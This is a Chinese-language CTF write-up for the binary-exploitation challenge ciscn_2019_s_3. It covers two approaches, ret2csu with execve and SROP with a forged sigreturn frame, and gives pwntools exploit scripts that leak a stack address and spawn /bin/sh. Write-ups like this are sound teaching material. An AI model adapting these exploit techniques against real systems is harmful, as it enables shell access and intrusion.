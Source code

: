 

### ciscn_2019_s_3

本题代码很少，注意到 `gadgets` 函数中有 `mov rax, 0Fh` 和 `mov rax, 3Bh` 可以控制 `rax`，它们恰好分别对应系统调用 `sigreturn` 和 `execve`。因此本题可以围绕这两个系统调用给出两种做法。

比较难的做法是利用 `execve`，我们希望执行 `execve('/bin/sh',0,0)`，那么还需要控制 `rdi,rsi,rdx`。这里需要几个 gadgets，但是 `gadgets` 函数中的不够用，所以可以 `ret2csu`。`/bin/sh` 需要我们自己写，但只能写到栈上，因此需要通过 `write` 泄露栈地址。

我们输入的内容位于 `rbp-0x10`，那么填充 16 字节后填充 `main` 函数地址即可重启程序同时泄露栈地址，gdb 调试可知泄露位置距离我们的输入偏移量为 `0x118` 字节。

最后在栈上布置好 `/bin/sh` 字符串和 `pop_rdi` 的 gadget，准备好 `rax`，返回到 csu 末尾确保 `rbx=0` 且 `rbp=1`，将栈上 `pop rdi` 的地址给 `r12` 以便调用，随后设置 `rsi,rdx` 为 0，最后将 `/bin/sh` 的地址给 `rdi`，调用 `syscall` 即可。

```python
syscall = 0x400517
mov_rax_3b = 0x4004e2
pop_rdi = 0x4005a3
csu_1 = 0x400580
csu_2 = 0x40059a

payload = 'a'*16 + p64(elf.sym['main'])
sl(payload)
r(0x20)
stack = uu64(r(8))-0x118
leak('stack',stack)

payload = flat('/bin/sh\x00',pop_rdi,mov_rax_3b,csu_2,0,1,stack-0x18,0,0,0,csu_1,pop_rdi,stack-0x20,syscall)
sl(payload)
```

第二种方法则是 SROP。我们利用 `mov rax, 0Fh` 控制 `rax` 为 15，随后调用 `syscall`，相当于执行了一次 `sigreturn`。可以伪造 sigreturn frame 来执行 `execve('/bin/sh',0,0)`。

```python
syscall = 0x400517
mov_rax_0f = 0x4004da

payload = 'a'*16 + p64(elf.sym['vuln'])
sl(payload)
r(0x20)
stack = uu64(p.r(8))-0x118
leak('stack',stack)

frame = SigreturnFrame()
frame.rax = constants.SYS_execve
frame.rdi = stack
frame.rsi = 0
frame.rdx = 0
frame.rsp = stack
frame.rip = syscall

payload = flat('/bin/sh\x00'*2,mov_rax_0f,syscall) + str(frame)
sl(payload)
```

